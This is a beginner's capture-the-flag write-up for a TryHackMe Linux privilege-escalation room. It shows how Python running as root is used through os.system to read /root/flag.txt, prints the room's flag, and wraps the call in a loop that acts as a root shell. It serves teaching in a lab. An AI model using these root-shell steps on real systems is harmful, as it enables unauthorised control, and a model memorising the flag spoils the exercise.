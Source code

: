 # Linux Privesc Playground - Try Hack Me - https://tryhackme.com/room/privescplayground
## This is my first Write-up but a simple one to preform.
### lets get in the machine and open python 

SSH Credentials - user:password

so there is a "trick" to gain an easy shell with the help of python
first we have to see if python is installed and has root premonition so we could exploit it
 
$ python
```
>>>
```

great! we got python installed, lets continue.

now we are in the python interactive shell, this is sort of a testing ground for coders.
but for us, its just a convenient way to get a shell.

we only need to init one library for OS commands
```python
>>> import os
```
now, lets see if we are root. (euid = 0:root)
```python
>>> geteuid()
```
> 0

Grate! python user has root privileges! lets use that ofc...
the syntax should look like this 

```python
os.system("whoami")
```

>root
0


note you can press the arrow-key-up button to toggle previous commands exactly like a regular shell

### Get The Flag!
to get the flag we will do the following

```python
os.system("cat /root/flag.txt")
```
> THM{3asy_f14g_1m40}


 

___
# bonus:

do you want to make your life easyer? (that's what python ment for)
 

```python
def A(i):
    os.system(i)
```

press return key (enter)


now all we need to do is A("YOUR COMMAND GOES HERE")

```
A('whoami')
```
>root
0

# Even better:

```
while True:
    i = input('CMD: ')
    os.system(i)
press return key (enter)
```
> CMD:
```
CMD: whoami
```
>root
0


now we got ourself a loop and created our-self an easy root shell!

# Hye! if you done the bonus why not get in to a python course?